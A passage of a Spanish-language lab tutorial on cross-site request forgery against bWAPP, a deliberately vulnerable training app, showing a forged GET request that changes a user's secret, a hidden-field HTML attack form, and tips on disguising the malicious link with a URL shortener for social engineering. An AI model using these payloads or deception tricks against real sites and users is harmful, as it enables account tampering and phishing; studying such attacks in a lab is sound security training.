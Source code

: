 Vemos que el action del form apunta al link de la pagina.

Esto es un PoC, pueden ustedes elaborar un html mas complejo y con otro formulario mas robusto para, mediante la ingenieria social, mandar esa pagina falsa y cuando el usuario haga click al boton de submit habremos cambiado su clave de ese usuario.

El usuario debe ya estar autenticado para que las cookies o sessions ID se carguen directamente a la peticion del atacante.

Ahora que pasa si estos datos viajan por metodo GET, es decir por la url de la pagina. Puedes probar esto mandando la peticion POST al repeater, darle click derecho y elegir **change method**, esto cambiara los datos poniendolos en la url y si lo mandas para analizar la respuesta del servidor puede que permita cambiar el secreto por GET como puede que no. Eso lo analizaras en la respuesta del servidor.

En caso de que deje se puede hacer la siguiente, en este caso no es necesario armar un formulario en HTML ya que los datos van por la url (pero tambien puedes usar el formulario lo veremos mas adelante):

```http
GET /bWAPP/csrf_3.php?secret=hola+mundo&login=chris&action=change HTTP/1.1
```

La url que servira para el ataque queda asi:

```http
http://192.168.112.142/bWAPP/csrf_3.php?secret=hola+mundo&login=chris&action=change
```

Es aqui donde nosotros cambiariamos los datos del secreto y el usuario y lo mandariamos a la victima.

Pero es muy descriptiva la url y la victima podria darse cuenta de que hace el link, por lo que se puede usar un recortador de url online como [shorturl](https://www.shorturl.at/).

Y la url cambiaria a esto:

```http
shorturl.at/ioLM1
```

Que es menos sospechosa que la anterior.

Tambien es valido usar el formulario de HTML sin el metodo POST especificado en el formulario:

```html
<html>
	<body>
		<script>history.pushState('','','/')</script>
		<form action="http://192.168.112.142/bWAPP/csrf_3.php">
			<input type="hidden" name="secret" value="evilsecret" />
			<input type="hidden" name="login" value="otro_usuario" />
			<input type="hidden" name="action" value="change" />
			<input type="submit" value="Submit request" />
		</form>
	</body>
</html>
```
